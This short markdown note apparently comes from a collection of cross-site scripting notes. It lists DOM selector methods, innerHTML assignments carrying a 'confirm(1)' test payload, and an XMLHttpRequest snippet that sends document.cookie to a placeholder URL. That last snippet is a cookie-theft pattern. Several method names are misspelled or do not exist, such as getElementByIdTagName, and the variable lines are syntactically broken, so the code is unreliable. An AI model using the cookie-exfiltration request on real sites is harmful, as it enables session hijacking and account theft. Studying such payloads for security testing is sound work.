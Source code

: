 # Javascript Breakdown and JQuery Requests

## Javascript (Thanks to @Legacyy for assisting me)
```
document.getElementById
document.getElementByClassName
document.getElementsByName
document.getElementsByTagName
document.getElementsByTagNameNS

var variablename document.getElementByIdTagName("tagName").innerHTML = "-confirm(1)-"
var variablename document.getElementsByIdTagName("tagName")[0].innerHTML = "-confirm(1)-"
```

## Creating Requests
```
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'URL' + document.cookie, true);
xhttp.send();
```

